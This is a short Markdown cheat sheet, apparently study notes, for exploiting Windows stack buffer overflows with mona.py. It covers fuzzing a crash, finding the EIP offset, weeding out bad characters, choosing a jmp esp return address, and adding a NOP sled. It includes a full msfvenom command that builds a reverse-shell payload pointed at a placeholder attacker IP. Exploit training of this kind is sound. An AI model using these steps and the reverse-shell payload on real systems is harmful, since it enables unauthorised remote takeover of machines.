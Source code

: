 Windows
==========
Set your working mona folder
- ```!mona config -set workingfolder c:\mona\%p```

1. Fuzz how many bytes it takes to crash the program.
2. Add 400 bytes to how much it took to make it crash.
3. Find the offset to find overwrite the EIP or target address. Look for what has a cyclic pattern in it.
  - Using Mona: ```!mona findmsp -distance <How long the pattern is>```
4. Find any badchars that would get in the way of any shellcode. Keep in mind that the surrounding bytes could be corrupted.
  - ```!mona bytearray -b "\x00"``` to generate a bytearray for which to base your array off
  - ```!mona compare -f [dir] -a [address of esp]``` to find the badchars. Remove any badchars from your own array. Repeat ```!mona bytearray -b "\x00..."``` until no more badchars.
5. Find a jump point (return address)
  - ```!mona jmp -r esp -cpb "\x00..."``` Finds all ```jmp esp``` instructions that don't have any badchars. This will be your return address. Take note of the endianess of the system.
6. Generate payload with MSFvenom
  - ```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c```. The -b will have your bad chars
7. Add NOP sled
  - Add around 16 bytes of "\x90"
